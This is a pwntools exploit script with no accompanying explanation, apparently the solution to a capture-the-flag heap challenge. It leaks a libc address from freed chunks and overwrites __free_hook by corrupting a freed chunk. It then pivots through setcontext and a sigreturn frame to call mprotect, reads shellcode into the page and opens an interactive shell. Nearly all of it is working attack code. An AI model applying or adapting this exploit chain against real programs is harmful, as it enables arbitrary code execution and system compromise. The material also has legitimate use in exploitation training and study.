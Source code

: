 ```
add(0x500,padding)
add(0x500,padding)
add(0x20,'protect')

for i in range(0,7):
    delete(i)
delete(8) 

edit(7,padding + 'a'*(8+6)+'bb')

show(7)
io.recvuntil('aabb')
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "libc_info----->" + hex(libc_info)
libc_addr=libc_info-0x3ebca0
print "libc_addr----->" + hex(libc_addr)
malloc_hook=libc_addr+libc.sym['__malloc_hook']
free_hook=libc_addr+libc.sym['__free_hook']
set_context_53=libc_addr+libc.sym['setcontext']+53
print "malloc_hook----->" + hex(malloc_hook)
print "free_hook----->" + hex(free_hook)

edit(7,padding+p64(0)+p64(0xa1))
add(0x500,padding)
add(0x500,padding)
delete(0)
edit(1,padding+p64(0)+p64(0xa1)+p64(free_hook))

shellcode_addr=free_hook &0xFFFFFFFFFFFFF000

shellcode_read="""
mov rdi,0
mov rsi,{}
mov rdx,0x1000
mov rax,0
syscall
jmp rsi
""".format(shellcode_addr)

add(0x500,padding)
add(0x500,padding)
edit(2,p64(set_context_53)+p64(free_hook+0x18)*2+asm(shellcode_read))

frame=SigreturnFrame()
frame.rsp=free_hook+0x10 
frame.rdi=shellcode_addr
frame.rsi=0x1000
frame.rdx=7

frame.rip=libc.sym['mprotect']+libc_addr 
edit(0,str(frame))

gdb.attach(io,"brva 0xEDB")
delete(0) 

sleep(0.5)
io.send(shellcode)

io.interactive() 
```
